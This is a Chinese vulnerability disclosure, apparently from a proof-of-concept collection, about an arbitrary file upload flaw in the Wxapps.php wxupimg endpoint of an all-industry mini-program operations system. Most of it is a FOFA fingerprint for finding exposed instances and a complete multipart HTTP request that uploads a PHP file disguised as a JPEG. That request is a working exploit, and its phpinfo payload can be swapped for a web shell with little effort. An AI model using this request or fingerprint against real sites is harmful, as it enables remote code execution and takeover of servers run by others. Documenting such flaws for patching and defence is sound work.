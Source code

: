 # 全行业小程序运营系统接口Wxapps.php存在任意文件上传漏洞

 **全行业小程序运营系统是一个无需编程，各行业模版直接套用，一键生成，轻松搭建小程序，界面自由DIY，同步实时预览，可视化操作让您所见即所得，随心打造个性小程序。** **接口位于`/api/controller/Wxapps.php`控制器的`wxupimg`方法使用`ThinkPHP`原生上传函数 file() 上传文件，且未有过滤，导致漏洞产生。**

## fofa

```YAML
"/com/css/head_foot.css"
```

## POC

```yaml
POST /api/wxapps/wxupimg HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 197
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNGBhBIC624F4IANg
Host: 127.0.0.1:81
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

------WebKitFormBoundary03rNBzFMIytvpWhy
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundary03rNBzFMIytvpWhy--
```

![image-20240714133917110](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407141339209.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/-6lYJFmRJUYHd1O-yFXZMg